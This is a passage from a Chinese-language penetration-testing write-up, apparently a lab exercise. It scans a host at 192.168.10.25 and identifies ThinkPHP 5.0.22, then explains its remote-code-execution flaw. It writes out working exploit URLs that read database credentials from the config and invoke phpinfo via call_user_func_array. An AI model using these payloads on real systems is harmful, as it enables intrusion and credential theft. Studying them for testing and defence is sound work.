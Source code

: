 这里可以看到几个主要的端口，例如 80、135、139、445，这里首先就可以想到可以利用的点有 ipc、smb

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOd9GpwnuOicNMo5sjEg9BKvRWibAHkZZUv7SGTNoKlTpclDPnLSD0ic4yqPRh0hOoibOBY5iaQBdvscXng/640?wx_fmt=png)

开了 80 端口，尝试访问 web 地址，老笑脸人了，而且还是 5.x 版本，洞还是比较多

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOd9GpwnuOicNMo5sjEg9BKvRFuS7rA7tnKx0VwoGlBqrNRtqJVVLtP9xDNdFXJxicznxNJ000wUyINw/640?wx_fmt=png)

为了确定具体版本，这里先使用报错查看，发现这里的版本为 5.0.22，如果没记错的话这里是有一个 tp 远程命令执行漏洞的

**漏洞描述：  
**

> 由于 thinkphp 对框架中的核心 Requests 类的 method 方法提供了表单请求伪造，该功能利用 $_POST['_method'] 来传递真实的请求方法。但由于框架没有对参数进行验证，导致攻击者可以设置 $_POST['_method']='__construct'而让该类的变量被覆盖。攻击者利用该方式将 filter 变量覆盖为 system 等函数名，当内部进行参数过滤时便会进行执行任意命令。

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOd9GpwnuOicNMo5sjEg9BKvRlGQxTwZUvzJyR8MCMa9MheZoAdOEdW6Fr5ty3eMquwicAWNJxuwebYQ/640?wx_fmt=png)

**thinkphp getshell**
---------------------

这里我首先在 kali 里面找一下有没有相关的漏洞

```
searchsploit thinkphp
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOd9GpwnuOicNMo5sjEg9BKvRmhl04ib9eDOpGZBcJG5gkYAOekKQwiaDvModziaMlTUx7bWqjice4nYV2w/640?wx_fmt=png)

可以看到这里有一个 5.x 远程执行漏洞，这里直接进入这个文件夹查看一下 txt 列出来的 payload

```
cd /usr/share/exploitdb/exploits/php/webapps
cat 46150.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOd9GpwnuOicNMo5sjEg9BKvRGm11UxwkfHcQTQsVmfEibpys9rtuVVXFmic2kIltH4YialJPzU3m1y12A/640?wx_fmt=png)

找到对应版本后 fuzz 以下 payload，这个是列出数据库名字，这里看到数据库名为 root

```
192.168.10.25/thinkphp/public/?s=.|think\config/get&name=database.username
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOd9GpwnuOicNMo5sjEg9BKvRibXz8ympvJ78ibQO3vicl76HkYiaXEm2dLUyGJhUlhH3qzKEzy5BiaOeYeg/640?wx_fmt=png)

这个 payload 应该是列出数据库密码，但是这里没有打出来

```
192.168.10.25/thinkphp/public/?s=.|think\config/get&name=database.password
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOd9GpwnuOicNMo5sjEg9BKvRqSFeXNfClSGqia8pA26AgSTfraCicYEP0cnMOVtP9WXD6bAs0slictPng/640?wx_fmt=png)

这里打出 phpinfo

```
192.168.10.25/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```
